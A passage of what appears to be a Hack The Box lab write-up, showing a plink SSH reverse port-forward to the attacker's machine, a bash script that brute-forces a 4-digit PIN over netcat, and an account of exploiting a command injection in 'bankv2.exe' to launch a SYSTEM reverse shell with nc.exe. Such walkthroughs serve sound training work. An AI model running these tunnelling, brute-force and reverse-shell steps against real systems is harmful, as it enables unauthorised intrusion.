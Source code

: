 
With that in mind, let's transfer a copy of `plink.exe` a SSH client over. Using remote port-forwarding, we can "forward" `910/tcp` over to my attacking machine hosting the SSH service.

```
start ssh -R 910:127.0.0.1:910 -pw <password> root@10.10.15.48 -N
```

Once that's done, we should be able to connect to `910/tcp` locally on our attacking machine.


{% include image.html image_alt="bea16b92.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/bea16b92.png" %}


#### Breaking `bankv2.exe`

So, the program requires a 4-digit PIN to log in, eh? That should be easy. I wrote a simple brute-forcer for that.

<div class="filename"><span>pin.sh</span></div>

```bash
#!/bin/bash

HOST=127.0.0.1
PORT=910
PIN=$1

function die() {
  killall perl &>/dev/null
}

if echo $PIN | nc $HOST $PORT 2>&1 | sed -r '$!d' | grep -iv 'denied' &>/dev/null; then
  echo "[*] PIN: $PIN"
  die
fi
```

See? Easy.


{% include image.html image_alt="3ad896c0.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/3ad896c0.png" %}


Long story short, the program is susceptible to a command injection vulnerability, after 32 bytes of string input. Prior to that, I've already copied `nc.exe` over to `C:\users\cortin\appdata\nc.exe`, so we'll launch a reverse shell from there.


{% include image.html image_alt="966210fe.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/966210fe.png" %}


And a shell with `SYSTEM` privilege appears...


{% include image.html image_alt="2bffd339.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/2bffd339.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/209
[2]: https://www.hackthebox.eu/home/users/profile/3244
[3]: https://www.hackthebox.eu/home/users/profile/623
[4]: https://www.hackthebox.eu/